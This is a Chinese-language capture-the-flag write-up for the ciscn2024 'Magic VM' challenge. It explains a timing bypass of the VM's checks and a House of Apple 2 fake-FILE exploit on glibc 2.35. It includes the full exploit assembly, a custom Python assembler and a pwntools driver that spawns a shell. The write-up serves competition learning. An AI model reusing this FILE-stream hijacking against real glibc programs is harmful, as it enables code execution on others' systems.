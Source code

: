 ```yaml
---
title: ciscn2024 - Magic VM 
date: 2024/5/21 00:48:00
updated: 2024/7/25 12:34:56
tags:
    - vm
    - House of Apple 2
    - libc2.35
    - tls
thumbnail: /assets/ciscn2024/magicvm.png
excerpt: CTF题解Magic VM利用时序漏洞绕过检测，伪造FILE实现代码执行。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.7|

## 解题思路

没去符号表的vm题，费了好大劲在黑灯开始时想通了怎么利用，然后来不及了

{% note success fa-check %}
我在[这里](https://github.com/RocketMaDev/CTFWriteup/tree/main/ciscn2024/MagicVMPsrc)会放逆好的伪代码，看起来清晰多了
{% endnote %}

这道题的漏洞在于绕过时序，从代码读入到实际写入，实际上需要3个周期，
而所有合法性检查是在`vm_id::run`中做的，那意味着，我们只要使数据变化慢于检测，
即可绕过，具体原理如图所示

![bypass](/assets/ciscn2024/magicvm.png)

理解完了这个原理之后，思路就很清楚了：先获取libc和mmap的地址，然后在data段伪造FILE，
设置好apple的触发条件，最后把伪造的FILE挂到`_IO_list_all`下，等程序自然退出就可以拿shell

为了自动化生成这长长的脚本，我写了对应的汇编和汇编器附在文后

## Extra Bonus

1. 我们拿到的mmap段紧邻另一段，而在里面有libc，有自身所在的地址，这不是巧合，它是TLS段
2. `cout <<`也有"hook"可用，在这个libstdc++中，在执行输出时，会解析函数，即导入函数到got表中，
那么由于它没有开Full RELRO，所以我们还可以写got表来跳转任意代码，但前提是我们能拿到libstdc++的地址
3. 由于延迟赋值的特性（见上图），所以在`mov reg, imm`和`mov ds:[reg], reg`这样的语句中间必须有一个等待周期，
可以`nop`，或者先处理其他寄存器


## EXPLOIT

```asm
; exp.asm
inline:
    mov r0, 0x46e8
    mov r1, 0x4740
    mov r0, ds:[r0]             ; main_arena
    mov r1, ds:[r1]             ; my_vm.data + 0x0x4740
    sub r0, 0x21ac80            ; libc_base
    sub r1, 0x4740              ; my_vm.data

    mov r2, 0x0
    mov r3, 0x28
    mov ds:[r2], 0x3b68732020   ; data->_flags = '  sh;'
    mov ds:[r3], 0x1            ; data->_IO_write_ptr = 1

    mov r2, 0xa0
    mov r3, 0xe0
    mov ds:[r2], r1             ; data->_wide_data = data
    mov ds:[r3], r1             ; data->_wide_vtable = data

    mov r2, r0
    mov r3, 0x68
    add r2, 0x50d70
    nop
    mov ds:[r3], r2             ; data->doallocate = system

    mov r2, r0
    mov r3, 0xd8
    add r2, 0x2170c0
    nop
    mov ds:[r3], r2             ; data->_vtable = _IO_wfile_jumps

    add r0, 0x21b680            ; r0 = _IO_list_all
    nop
    sub r0, r1
    mov r2, 0x0
    mov r2, r0
    nop
    mov ds:[r2], r1             ; *_IO_list_all = data
    nop
    nop
```

```python
# assembler.py
from pwn import *
import re
def assemble(lines:list[str]) -> bytes:
    payload = b''
    pre = ' *'
    post = r'(?: *;.*)?'
    def wrap_match(restr:str, line:str) -> re.Match:
        return re.match(f'{pre}{restr}{post}', line)

    for i, line in enumerate(lines):
        if match := wrap_match(r'mov r(\d), (0x[0-9a-f]+)', line):
            # mov reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'mov r(\d), ds:\[r(\d)\]', line):
            # mov reg, ds
            reg = int(match.group(1))
            ds = int(match.group(2))
            payload += b'\x05\x0e' + p8(reg) + p8(ds)
        elif match := wrap_match(r'mov ds:\[r(\d)\], (0x[0-9a-f]+)', line):
            # mov ds, imm
            ds = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x07' + p8(ds) + p64(imm)
        elif match := wrap_match(r'mov ds:\[r(\d)\], r(\d)', line):
            # mov ds, reg
            ds = int(match.group(1))
            reg = int(match.group(2))
            payload += b'\x05\x0b' + p8(ds) + p8(reg)
        elif match := wrap_match(r'mov r(\d), r(\d)', line):
            # mov reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x05\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), r(\d)', line):
            # sub reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x02\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x02\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'add r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x01\x06' + p8(reg) + p64(imm)
        elif match := wrap_match('nop', line):
            # nop
            payload += b'\x0b'
        else:
            debug(f'\'{line.strip()}\' @L#{i + 1} can not match')
    debug(f'generating payload {payload}')
    return payload

if __name__ == '__main__':
    import sys
    if len(sys.argv) < 2:
        print('Require file name!')
        exit(0)
    filename = sys.argv[1]
    with open(filename, 'r') as file:
        bytecode = assemble(file.readlines())
        print(bytecode)
```

```python
# vm.py
from pwn import *
from assembler import assemble
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './vm'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1c84)\nc')
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)

    with open('exp.asm', 'r') as file:
        bytecode = assemble(file.readlines())
    sh.send(bytecode)

    sh.clean()
    sh.interactive()
```
